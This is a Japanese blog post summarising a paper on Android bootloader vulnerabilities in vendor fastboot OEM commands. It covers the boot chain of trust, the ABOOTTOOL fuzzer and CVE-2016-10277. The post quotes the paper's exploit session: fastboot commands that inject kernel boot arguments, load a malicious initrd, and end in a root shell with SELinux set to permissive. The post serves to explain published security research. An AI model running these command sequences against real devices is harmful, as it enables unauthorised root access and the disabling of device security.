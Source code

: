 +++
title = "論文紹介: fastboot oem vuln:Android Bootloader Vulnerabilities in Vendor Customizations"
date = "2020-08-14"
tags = [
    "security",
    "paper",
]
+++

androidのブートローダ周りの脆弱性やファジングってどうやってるんだろうっての気になってたらこの論文を見つけました。

いつもどおり適当なのでちゃんと知りたかったら論文読んでください。

#### Introduction
androidではchain-of-trustを通してセキュアブートを実装している。

PBLが次のブートローダの真正性を検証してSBLが起動、SBLがABOOTを検証するというのを続ける。
簡単にするとPBL -> SBL -> ABOOT -> boot.imgみたいな感じで起動していくっぽい。

ABOOTには通常モードとfastbootモードの2つのモードがある。
ABOOTはOSの実行前に実行されているため脆弱性も重要な深刻度を持っている。

この論文では例をいくつか紹介する。

#### fastbootの起動
fastbootは様々な方法で起動できると言ってる。

- キーの組み合わせ
- USBデバッグを有効にした状態でadb reboot

キーの組み合わせっていうのは何を指してるのかよくわからなかったので調べてみた所、以下のドキュメントを見つけた。

https://source.android.google.cn/setup/build/running?hl=ja#booting-into-fastboot-mode

キーの組み合わせって言うのは物理キーの組み合わせの話らしい。

自分が持ってるPixel 3a XLだと音量小を押したまま電源を長押しすると起動できるっぽい。

太古の昔にTWRPを入れるために似たような操作をやっていたけど完全に失念していた。

#### ABOOTTOOL
OEMコマンドを発見するためにABOOTTOOLというファズツールを開発したらしい。
https://github.com/alephsecurity/abootool

これっぽい。

これによってメモリダンプ (ALEPH-2016000)などの脆弱性を発見できたと言ってる。

そして過去の脆弱性や今回見つかった脆弱性を4種類に分類して説明している。

- OSの完全性
- データの流失
- OSの隠れた機能
- ICに対する攻撃

今回はOSの完全性の辺りに焦点を当てて見てみる。

#### OSの完全性
いくつかあるっぽいけど今回はCVE-2016-10277に注目してみる。
```txt
$ fastboot oem config console "a foo=A "
$ fastboot oem config fsg-id "a bar=B"
$ fastboot oem config carrier "a baz=C"
[...]
shamu:/ $ dmesg | grep command
[    0.000000] Kernel command line: console=a foo=A ,115200,
    n8 earlyprintk androidboot.console=a foo=A  androidboot
    .hardware=shamu msm_rtb.filter=0x37 [...] androidboot.
    fsg-id=a bar=B androidboot.secure_hardware=1 [...]
    androidboot.carrier=a baz=C  androidboot.hard<
```
こんな感じでlinux kernelの起動オプションに任意の値を含めることが出来るっぽい。

これを利用して、initrdを用意してfastbootでflash, rdinitに自分のinitrdを指定して起動するというのをやっている。
flashっていう操作はなんだかロックされていると出来なさそうに思えるけどこれはロックしててもいけるらしい。

これ以外にも再起動後も保つ方法とかいろいろ書いてあったので興味ある人は自分で読んでみて。
```txt
$ fastboot oem config fsg-id "a initrd=0x11000000,1518172"
$ fastboot flash aleph malicious.cpio.gz
[...]
target reported max download size of 536870912 bytes
sending ’aleph’ (1482 KB)...
OKAY [  0.050s]
writing ’aleph’.
..(bootloader) Not allowed in LOCKED state!
FAILED (remote failure)
finished.
total time: 0.054s

$ fastboot continue
$ adb shellshamu:/ # id
uid=0(root) gid=0(root) groups=0(root),[...] context=u:r:su:s0
shamu:/ # setenforce permissive
shamu:/ # getenforce
Permissive
shamu:/ #
```
